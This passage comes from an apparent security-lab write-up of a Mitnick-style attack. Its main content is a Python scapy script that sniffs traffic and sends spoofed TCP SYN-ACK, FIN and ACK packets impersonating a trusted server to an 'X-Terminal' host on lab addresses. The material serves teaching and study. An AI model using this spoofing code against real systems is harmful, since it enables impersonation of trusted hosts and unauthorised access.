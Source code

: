 ***First connection screenshot***

![first-connection](https://github.com/iukadike/iukadike.github.io/assets/58455326/267e69f9-3d81-4bee-992d-aef3f39f3edb)


##### Second Connection
```python
#!/usr/bin/env python3
from scapy.all import IP,TCP,Raw,send,sniff
from random import getrandbits

x_ip = "10.9.0.5"                       # X-Terminal
x_port = 1023                           # Port number used by X-Terminal

srv_ip = "10.9.0.6"                     # The trusted server
srv_port = 1024                         # Port number used by the trusted server

# Filter for sniffer
myFilter = 'tcp dst port 1024 && (not ether host 02:42:f7:8f:12:53)'

# Initialize sequence number
seq_num = getrandbits(32)

def spoof_rply(pkt):
    global seq_num
    
    # Determine TCP length
    TCPLen = len(pkt[TCP].payload)
    
    # If it is a SYN packet, spoof a SYN+ACK reply
    if pkt[TCP].flags == 'S':
        ack_no = pkt[TCP].seq + 1
        send(IP(src = srv_ip, dst = x_ip) / TCP(sport = srv_port, dport = x_port, flags='SA', seq = seq_num, ack = ack_no), verbose=0)
        # update sequence number to next value        
        seq_num += 1  
        print("SYN-ACK sent...")

    # If it is a FIN packet, close the connection
    elif 'F' in pkt[TCP].flags:
        ack_no = pkt[TCP].seq + 1
        send(IP(src = srv_ip, dst = x_ip) / TCP(sport = srv_port, dport = x_port, flags='FA', seq = seq_num, ack = ack_no), verbose=0)
        # update sequence number to next value        
        seq_num += 1  
        print("connection termination requested...")

    # If it is a PSH/ACK packet, acknowledge receipt of packet and data
    elif 'P' in pkt[TCP].flags:
        ack_no = pkt[TCP].seq + TCPLen
        send(IP(src = srv_ip, dst = x_ip) / TCP(sport = srv_port, dport = x_port, flags='A', seq = seq_num, ack = ack_no), verbose=0)
        print("data received...")
    
    # If it is an ACK packet, do nothing
    elif pkt[TCP].flags == 'A':
        pass

        
def main():
    # Listen for SYN+ACK reply and respond
    sniff(iface = 'br-7ef88ab00fc9', filter = myFilter, prn=spoof_rply)


```